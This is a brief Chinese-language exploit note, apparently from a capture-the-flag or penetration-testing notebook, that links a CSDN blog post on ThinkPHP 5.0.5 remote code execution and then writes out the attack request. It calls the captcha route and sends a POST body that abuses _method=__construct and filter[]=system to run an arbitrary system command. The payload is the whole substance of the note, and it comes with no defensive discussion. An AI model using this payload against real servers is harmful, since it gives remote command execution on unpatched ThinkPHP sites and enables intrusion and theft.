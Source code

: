 # 知识点
[ThinkPHP5.0.5RCE_1stPeak的博客-CSDN博客_thinkphp5.0.5](https://blog.csdn.net/qq_41617034/article/details/119463580)
# 思路
```php
GET http://xx.xx.xx.xx:8080/index.php/?s=captcha
POST _method=__construct&filter[]=system&method=GET&get[]=系统命令
```
